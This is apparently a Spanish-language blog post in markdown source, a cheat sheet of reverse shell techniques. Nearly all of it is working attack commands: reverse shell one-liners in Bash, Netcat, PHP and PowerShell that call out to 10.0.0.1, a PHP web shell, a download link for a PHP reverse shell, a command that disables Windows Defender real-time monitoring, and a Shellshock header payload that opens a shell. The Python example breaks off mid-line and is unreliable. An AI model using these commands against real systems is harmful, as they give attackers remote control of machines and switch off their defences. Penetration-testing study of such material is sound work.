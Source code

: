 ```yaml
---
date: 2021-09-15T00:22:05.000Z
layout: post
comments: true
title: Reverse Shell
subtitle: 'y como obtener acceso'
description: >-
image: >-
  http://imgfz.com/i/8lyF7VZ.jpeg
optimized_image: >-
  http://imgfz.com/i/8lyF7VZ.jpeg
category: ciberseguridad
tags:
  - explotación
  - linux
  - hacking
author: Felipe Canales Cayuqueo
paginate: true
---
```


# Ejemplos principales:

### Bash

```bash
┌─[root@kali]─[/home/user/demo/exploit]
└──╼ bash -i >& /dev/tcp/10.0.0.1/443 0>&1
```

```bash
┌─[root@kali]─[/home/user/demo/exploit]
└──╼ /bin/bash -c 'bash -i >& /dev/tcp/10.0.0.1/443 0<&1'
```

### Python

```bash
┌─[root@kali]─[/home/user/demo/exploit]
└──╼ python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234))
```

### Netcat

```bash
#Versiones actualizadas
┌─[root@kali]─[/home/user/demo/exploit]
└──╼ nc -e /bin/sh 10.0.0.1 1234

#Versiones más antiguas
┌─[root@kali]─[/home/user/demo/exploit]
└──╼ rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.0.0.1 1234 > /tmp/f
```

### PHP
En PHP se puede ingresar un archivo malicioso que devuelva una reverse shell.

>[Descarga archivo aquí](http://www.mediafire.com/file/a3i5v7urr7cp6gw/php-reverse-shell-1.0.tar.gz/file)

Para testear ejecución remota de comandos:

```php
<?php system($_GET[‘ls’]);?>

## <?php system($_GET[‘cmd’]);?>
```

Para obtener una reverse shell por medio de comandos:

```bash
┌─[root@kali]─[/home/user/demo/exploit]
└──╼ php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```


Otros códigos se pueden encontrar en el directorio ```/usr/share/webshells/laudanum``` o desde el GitHub de [laudanum](https://github.com/adamcaudill/laudanum).

### PowerShell (cmd)

```
C:\Users\test> powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.0.0.1',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

#### Deshabilitar Antivirus

```powershell
PS C:\Users\test> Set-MpPreference -DisableRealtimeMonitoring $true
```

### Ejemplo de uso
En burpsuite se podría ocupar en ataques como Shellshock, por ejemplo:
```bash
#Se ocupa como base un proceso como este...
curl -H "User-Agent: () { :; }; /bin/eject" http://example.com/
```
```bash
#Acá se adapta el proceso...
User Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.0.0.1/1234 0>&1
```
